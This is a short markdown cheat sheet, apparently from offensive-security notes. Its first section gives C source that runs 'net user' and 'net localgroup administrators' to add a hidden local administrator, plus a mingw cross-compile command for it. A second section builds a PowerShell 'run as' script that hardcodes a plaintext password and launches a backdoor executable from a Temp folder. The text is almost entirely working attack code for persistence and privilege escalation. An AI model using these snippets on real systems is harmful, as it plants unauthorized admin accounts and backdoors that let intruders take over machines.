 # Add A Local User
1. Create an add user program in c.
```
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */ 

int main () 
{ 
  int i; 
  i=system ("net user <username> <password> /add && net localgroup administrators <username> /add"); 
  return 0; 
} 
```
2. Compile program.
```
i686-w64-mingw32-gcc -o useradd.exe useradd.c
```

# Powershell Run As
```
echo $username = '[user name]' > runas.ps1 
echo $securePassword = ConvertTo-SecureString "[password]" -AsPlainText -Force >> runas.ps1 
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword >> runas.ps1 
echo Start-Process C:\Users\[User]\AppData\Local\Temp\backdoor.exe -Credential $credential >> runas.ps1 
```
